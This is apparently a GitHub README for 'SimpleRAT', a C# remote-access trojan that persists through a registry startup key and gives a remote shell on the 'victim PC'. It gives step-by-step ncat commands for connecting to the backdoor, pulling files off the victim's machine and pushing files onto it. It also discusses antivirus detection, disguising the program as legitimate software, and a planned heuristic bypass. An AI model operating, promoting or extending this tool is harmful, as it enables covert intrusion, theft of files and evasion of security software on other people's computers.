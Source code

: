 # SimpleRAT

Self-contained Remote-Access-Trojan/Backdoor written fully in C#.
After installation and launch, listens on port specified in JSON configuration. After successfull connection gives remote shell.
Configured for self-startup (key in registry)
Developed for Windows, Fully compatible with Netcat (tested with windows version). 

NO additional server setups for file downloads or uploads

NO additional dll's or configuration files that should be uploaded

# What RAT can
1. Auto-open port on victim PC
2. After connection on specified port (provided in JSON file, which can be changed as you wish and should be merged into exe after that by using provided tool), gives reverse shell.
3. Is able to download any files from victim's PC on specified port (provided in JSON file) and upload files on victim PC, no need for server setup or anything, only netcat on your side and launched RAT on victim's side :)
### How to download files:
4. Put netcat on listening state (ncat -v -l -p "port for file download from JSON" > "file name with extension that you want to download")

Example: ncat -v -l -p 8889 > helloworld2.exe

NOTE: I advice you to use "-v" for more verbose output

2. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

3. Check if reverse shell is working (cd, dir)

5. Currently RAT has it's own command interpreter which will listen to commands from your PC, these type of commands begin with "RAT".

For file download command is - "RAT download file -p <windows/path/to/file/withextension>"
  
Process:
![RAT-guide](https://user-images.githubusercontent.com/53906830/109512165-1aee9280-7aa4-11eb-891f-89ff993b7dd4.png)

### How to upload files:
1. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

2. Check if reverse shell is working (cd, dir)

3. Put RAT in listenning state by executing:
RAT upload file -p <path/to/file.exe>

Example: RAT upload file -p C:\Users\someuser\checkme\ConsoleApp4.exe

4. Send file through netcat on main port of your RAT

Example: ncat 192.168.88.230 8888 --send-only < ConsoleApp4.exe

Process:
![receivefile](https://user-images.githubusercontent.com/53906830/111041705-dcf55500-8439-11eb-8eac-f7e0c1d897ba.png)

## Downsides
1. During first launch Windows Firewall will give popup asking user if he allows RAT to access firewall (i.e open port), data that is provided can be modified by editing exe metadata.
2. Is detected by Kasperky (Heuristic) on full protection as Trojan.Win32.Generic
3. High .exe application size (35 MB) 
4. High memory usage

![rat-memory](https://user-images.githubusercontent.com/53906830/110226932-73ce8880-7ef3-11eb-9f0e-b455832e95b4.png)

Both size and memory problems are because RAT is self-contained application with builded-in .NET runtime.
From one side those are problems for sure, from other side you could mask program with such size and memory usage as other legitimate one :)

### Features To Be Done: 

1. RAT as Windows Service (?)
2. Bypass heuristic (?)
